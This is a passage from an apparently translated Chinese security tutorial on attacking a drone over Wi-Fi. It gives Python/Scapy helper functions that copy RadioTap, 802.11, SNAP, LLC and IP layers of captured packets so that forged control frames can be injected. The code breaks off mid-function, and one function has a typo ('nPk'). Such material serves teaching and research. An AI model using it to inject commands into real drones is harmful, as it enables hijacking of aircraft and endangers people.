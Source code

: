 我们建立我们的新的数据包，复制 RadioTap, 802.11, SNAP, LLC, IP 和 UDP 的没一层的协议。注意，我们在每一层里抛弃一些字段，比如，我们不用复制 IP 地址字段。我们的命令可能包含不同长度的大小，我们可以让`Scapy`自动的计算生成数据包，同样，对于一些校验值也是一样。有了这些知识在手，我们现在可以继续我们的无人机攻击了。我们将脚本保存为`dup.py`，因为它复制了太多的 802.11 数据帧的字段。

```py
from scapy.all import *
def dupRadio(pkt):
    rPkt=pkt.getlayer(RadioTap)
    version=rPkt.version
    pad=rPkt.pad
    present=rPkt.present
    notdecoded=rPkt.notdecoded
    nPkt = RadioTap(version=version, pad=pad, present=present, notdecoded=notdecoded)
    return nPk

def dupDot11(pkt):
    dPkt=pkt.getlayer(Dot11)
    subtype=dPkt.subtype
    Type=dPkt.type
    proto=dPkt.proto
    FCfield=dPkt.FCfield
    ID=dPkt.ID
    addr1=dPkt.addr1
    addr2=dPkt.addr2
    addr3=dPkt.addr3
    SC=dPkt.SC
    addr4=dPkt.addr4
    nPkt=Dot11(subtype=subtype,type=Type,proto=proto,FCfield=FCfield,ID=ID,addr1=addr1,addr2=addr2,addr3=addr3,SC=SC,addr4=addr4)
    return nPkt

def dupSNAP(pkt):
    sPkt=pkt.getlayer(SNAP)
    oui=sPkt.OUI
    code=sPkt.code
    nPkt=SNAP(OUI=oui,code=code)
    return nPkt

def dupLLC(pkt):
    lPkt=pkt.getlayer(LLC)
    dsap=lPkt.dsap
    ssap=lPkt.ssap
    ctrl=lPkt.ctrl
    nPkt=LLC(dsap=dsap,ssap=ssap,ctrl=ctrl)
    return nPkt

def dupIP(pkt):
    iPkt=pkt.getlayer(IP)
    version=iPkt.version
    tos=iPkt.tos
    ID=iPkt.id
    flags=iPkt.flags
    ttl=iPkt.ttl
    proto=iPkt.proto
    src=iPkt.src
    dst=iPkt.dst
    options=iPkt.options
    nPkt=IP(version=version,id=ID,tos=tos,flags=flags,ttl=ttl,proto=proto,src=src,dst=dst,options=options)
    return nPkt

def dupUDP(pkt):
    uPkt=pkt.getlayer(UDP)
    sport=uPkt.sport
```